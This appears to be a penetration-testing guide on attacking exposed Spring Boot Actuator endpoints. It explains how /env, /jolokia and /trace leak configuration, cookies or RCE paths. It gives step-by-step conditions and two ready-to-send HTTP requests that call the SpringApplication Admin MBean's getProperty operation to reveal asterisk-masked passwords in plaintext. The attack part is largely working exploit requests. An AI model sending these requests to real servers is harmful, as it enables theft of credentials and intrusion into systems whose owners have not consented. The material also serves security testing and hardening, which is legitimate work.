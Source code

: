 Among them, the most important interfaces for finding vulnerabilities are:

- `/env` and `/actuator/env`
  - GET requests `/env` will leak environment variable information or some usernames in the configuration. When the programmer's attribute names are not standardized (for example, the password is written as passwords, PWD), the plaintext of the password will be leaked.
  - At the same time, there is a certain probability that some attributes can be set through the POST request `/env` interface to trigger related RCE vulnerabilities.

- `/Jolokia`
  - Find exploitable MBeans through the `/jolokia/list` interface to trigger related RCE vulnerabilities;

- `/trace`
  - Some http request packets access tracking information, it is possible to find valid cookie information

### Password Desensitized by the Asterisk (method 1)

When accessing the `/env` interface, the spring actuator will replace the attribute values ​​corresponding to some attribute names with sensitive keywords (such as password, secret) with * to achieve the effect of desensitization

#### Conditions of use:
- Target website exists `/jolokia` or `/actuator/jolokia` interface.
- The target uses Jolokia-core dependencies (version requirements are currently unknown)

#### Steps to use:

1. Find the property name you want to get
  - GET requests the `/env` or `/actuator/env` interface of the target website, search for ******keywords, and find the attribute name corresponding to the attribute value masked by the asterisk * to be obtained.

2. Jolokia calls the relevant MBean to get the plaintext

  - **security.user.password** Replace in the following example with the actual property name to be obtained, and send the packet directly; the result of the plaintext value is included in the value key in the response packet.

3. **Invoke org.springframework.bootMbean**( maybe more generic )

In fact, it calls the getProperty method of the **org.springframework.boot.admin.SpringApplicationAdminMXBeanRegistrar** class instance

**spring 1.x**

```http
POST /jolokia HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["{{ attribute security.user.password }}"]}
```

**spring 2.x**
```http
POST /actuator/jolokia HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["{{ attribute security.user.password }}"]}
```
